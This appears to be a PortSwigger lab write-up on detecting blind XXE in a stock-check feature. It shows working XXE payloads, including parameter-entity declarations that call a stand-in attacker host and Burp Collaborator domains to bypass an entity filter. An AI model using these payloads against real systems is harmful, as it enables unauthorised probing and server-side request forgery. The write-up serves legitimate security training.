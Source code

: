 # Blind XXE with out-of-band interaction via XML parameter entities

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities), you'll learn: Blind XXE with out-of-band interaction via XML parameter entities! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134058.png)

In here, we can view other products' details:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134109.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134124.png)

Also, in all products details, we can check the available stocks.

**Let's click on the "Check stock" button, and see the responses in Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134136.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134146.png)

**When we clicked that button, it'll send a POST request to `/product/stock`, with an XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

When we see XML data, it's worth to test XXE (XML external entity) injection, XPATH injection.

**In XXE injection, we can try to trigger an error to identify is there any XXE vulnerability:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        a
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134223.png)

When we parsed an invalid `productId`, it'll response us "Invalid product ID".

Now, we can also test **blind XXE**!

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

**Armed with above information, let's try to send the following payload to dectect blind XXE.**

- Go to Burp Suite's Collaborator and copy the payload:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134309.png)

- Send the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://ma0zo3vdlsichyoboecsqqt8azgr4is7.oastify.com"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134335.png)

However, we see this response:

> "Entities are not allowed for security reasons"

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```xml
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

**XML parameter entities payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % xxe SYSTEM "http://1aceoivsl7irhdoqotc7q5tnaeg74xsm.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>
        %xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134641.png)

- Burp Suite's Collaborator:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134659.png)

As you can see, we've **recieved 2 DNS lookups**, which means **the "Check stock" feature is indeed vulnerable to blind XXE injection**!!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-4/images/Pasted%20image%2020230301134706.png)

# What we've learned:

1. Blind XXE with out-of-band interaction via XML parameter entities